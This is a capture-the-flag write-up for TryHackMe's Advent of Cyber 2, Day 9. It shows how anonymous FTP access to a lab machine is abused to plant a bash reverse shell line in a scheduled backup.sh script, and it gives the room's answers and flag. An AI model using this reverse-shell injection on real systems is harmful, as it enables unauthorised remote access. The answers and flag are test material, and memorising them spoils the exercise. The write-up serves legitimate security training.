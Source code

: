 # Day 9 - Anyone can be Santa!

**Date:** 9, December, 2020

**Author:** Dhilip Sanjay S

---
## FTP


## Solutions

### 1) Name the directory on the FTP server that has data accessible by the "anonymous" user
- **Answer:** public
- **Steps to reproduce:**
    - To connect to FTP server - `ftp <MACHINE IP>`.
    - Provide username as `anonymous`.
    - Type `ls` to list the directories. 
    - You'll find that only the **public** directory is accessible.
---

### 2) What script gets executed within this directory?
- **Answer:** backup.sh
---

### 3) What movie did Santa have on his Christmas shopping list?
- **Answer:** The Polar Express
- **Steps to reproduce:**
    - To download the shopping list - `get shoppinglist.txt` 
---

### 4) Re-upload this script to contain malicious data
- **Answer:** THM{even_you_can_be_santa}
- **Steps to reproduce:**
    - To download the backup.sh - `get backup.sh` 
    - Add the following script to the file: 
    ```bash
    bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
    ```
    - Reupload backup.sh - `put backup.sh`

- **Note:** You must listen to the connection using `netcat`. If you don't know know how to do it, refer Day02. After getting the reverse shell, you can `cat flag.txt` to get the flag.

---
[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 